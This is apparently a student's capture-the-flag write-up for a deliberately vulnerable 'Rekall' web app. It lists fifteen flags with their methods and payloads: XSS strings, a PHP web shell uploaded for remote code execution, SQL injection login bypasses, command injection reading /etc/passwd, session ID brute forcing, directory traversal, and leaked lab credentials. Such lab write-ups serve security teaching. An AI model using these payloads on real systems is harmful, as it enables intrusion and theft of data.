# Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: 



Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>

Flag 3:
Method: Cross-site scripting (XSS)
Payload: 



Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response



Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>



Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands



Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --



Flag 8:
Location: Login.php (second field)
Vulnerability: Sensitive data exposure
Method/Payload to Exploit: The username and password are in the HTML, or you can view them by highlighting the webpage.
Username: dougquaid Password: kuato



Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag



Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt



Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag



Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')



Flag 14:
Location: admin_legal_data.php
Vulnerability: Session management
Payload to Exploit: The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) 87 is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).



Flag 15:
Location: Disclaimer.php
Vulnerability: Directory traversal
Payload to Exploit: The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run ls to see the old_disclaimers directory. Using that finding, change the URL to: http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt
Note that the resource changed from disclaimer_2.txt to disclaimer_1.txt, as this is the older version.



